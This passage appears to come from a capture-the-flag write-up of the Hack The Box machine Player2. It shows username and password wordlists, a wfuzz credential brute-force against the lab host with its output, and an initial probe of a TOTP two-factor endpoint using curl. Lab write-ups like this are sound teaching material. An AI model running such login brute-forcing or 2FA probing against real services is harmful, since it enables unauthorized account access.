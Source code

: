 I generated 100 pairs of username and password, out of which there are four unique usernames and passwords respectively.

<div class="filename"><span>name.txt</span></div>

```
0xdf
jkr
mprox
snowscan
```

<div class="filename"><span>pass.txt</span></div>

```
Lp-+Q8umLW5*7qkc
tR@dQnwnZEk95*6#
XHq7_WJTA?QD_?E2
ze+EKe-SGF^5uZQX
```

I then used these wordlists to try to login on `product.player2.htb` with `wfuzz`.

```
# wfuzz -w name.txt -w pass.txt -d "username=FUZZ&password=FUZ2Z&Submit=Sign+In" --hs "Nope" http://product.player2.htb/
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://product.player2.htb/
Total requests: 16

==================================================================
ID      Response   Lines      Word         Chars          Payload    
==================================================================

000003:  C=302      0 L        0 W            0 Ch        "0xdf - XHq7_WJTA?QD_?E2"
000010:  C=302      0 L        0 W            0 Ch        "mprox - tR@dQnwnZEk95*6#"

Total time: 2.814284
Processed Requests: 16
Filtered Requests: 14
Requests/sec.: 5.685282
```

### Overcoming two-factor authentication

Any of the pairs of credentials above work but we are faced with another problem: two-factor authentication. There's another layer of authentication at `product.player2.htb/totp`.

{% include image.html image_alt="a1cc3df3.png" image_src="/5839e089-8564-49d1-9f19-dbd621b89794/a1cc3df3.png" %}

Recall the `/api` path discovered above? Perhaps it has something to do with TOTP?

```
# curl -i http://product.player2.htb/api/totp
HTTP/1.1 200 OK
Date: Thu, 19 Dec 2019 03:30:22 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=jn1971v51c1ag0l1epir7fqtnp; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 25
Content-Type: application/json

{"error":"Cannot GET \/"}
```